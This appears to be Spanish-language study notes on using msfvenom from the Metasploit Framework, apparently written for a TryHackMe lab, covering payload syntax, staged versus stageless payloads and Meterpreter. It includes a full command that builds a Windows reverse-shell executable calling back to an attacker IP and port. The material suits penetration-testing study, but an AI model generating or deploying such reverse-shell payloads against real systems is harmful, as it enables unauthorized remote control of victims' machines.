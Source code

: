 ### RESUMEN OPERATIVO

**Herramienta:** `msfvenom`
**Función:** Generación de payloads para explotación local o remota.
**Contexto:** Parte del Metasploit Framework.

#### USO GENERAL

```bash
msfvenom -p <PAYLOAD> -f <FORMATO> -o <ARCHIVO> LHOST=<IP> LPORT=<PUERTO>
```

**Ejemplo:**

```bash
msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=10.10.14.15 LPORT=4444
```

---

### EXPLICACIÓN

**Opciones comunes:**

* `-p <PAYLOAD>`: Define el tipo de payload (ej: `linux/x86/shell_reverse_tcp`)
* `-f <FORMATO>`: Formato de salida (`exe`, `elf`, `asp`, `py`, `raw`, etc)
* `-o <ARCHIVO>`: Archivo donde se guarda el payload generado
* `LHOST=<IP>`: IP a la que se conectará el payload (tu IP VPN en TryHackMe)
* `LPORT=<PUERTO>`: Puerto de escucha

---

### CONCEPTOS CLAVE

#### 1. **Staged vs Stageless**

| Tipo      | Código              | Características                                                                                |
| --------- | ------------------- | ---------------------------------------------------------------------------------------------- |
| Staged    | `shell/reverse_tcp` | Payload dividido: stager inicial se conecta, luego descarga el payload completo. Más sigiloso. |
| Stageless | `shell_reverse_tcp` | Todo el payload en una sola pieza. Más fácil de usar, más detectable.                          |

**Nota:** `/_/` → *Stageless* | `/ /` → *Staged*

---

#### 2. **Meterpreter**

* Shell avanzada de Metasploit.
* Funciones: subir/descargar archivos, escaneo de red, ejecución de scripts.
* Solo funciona si se captura en `msfconsole` (`multi/handler` o `exploit/multi/handler`).
* Formato:

  * Staged: `windows/x64/meterpreter/reverse_tcp`
  * Stageless: `linux/x86/meterpreter_reverse_tcp`

---

#### 3. **Payload Naming Convention**

```text
<SO>/<ARQUITECTURA>/<TIPO_PAYLOAD>
```

Ejemplos:

* `linux/x86/shell_reverse_tcp` → Linux 32-bit, shell, stageless
* `windows/x64/meterpreter/reverse_tcp` → Windows 64-bit, meterpreter, staged
* `windows/shell_reverse_tcp` → Windows 32-bit, shell, stageless

---

### COMANDOS ÚTILES

* **Listar todos los payloads:**

```bash
msfvenom --list payloads
```

* **Filtrar payloads específicos (ej: meterpreter Linux 32-bit):**

```bash
msfvenom --list payloads | grep linux/x86/meterpreter
```

---

### GLOSARIO

* **Payload:** Fragmento de código que se ejecuta en el sistema objetivo.
* **Staged:** Payload dividido en varias fases; requiere conexión para cargar completo.
* **Stageless:** Payload completo en un solo archivo; conexión directa.
* **Meterpreter:** Shell extendida desarrollada por Metasploit.
* **LHOST:** IP del atacante donde el payload se conectará.
* **LPORT:** Puerto en el atacante donde se recibirá la conexión.
* **msfconsole:** Consola interactiva de Metasploit.
* **multi/handler:** Módulo Metasploit para recibir conexiones de payloads reverse.

---

**Notas adicionales:**

* Los puertos <1024 requieren privilegios root.
* `exe` es formato para Windows, `elf` para Linux.
* `msfvenom` **no requiere msfconsole para funcionar**, pero los *staged payloads* sí requieren listener específico (`multi/handler`).
* Anti-malware modernos usan AMSI para interceptar incluso payloads en memoria.
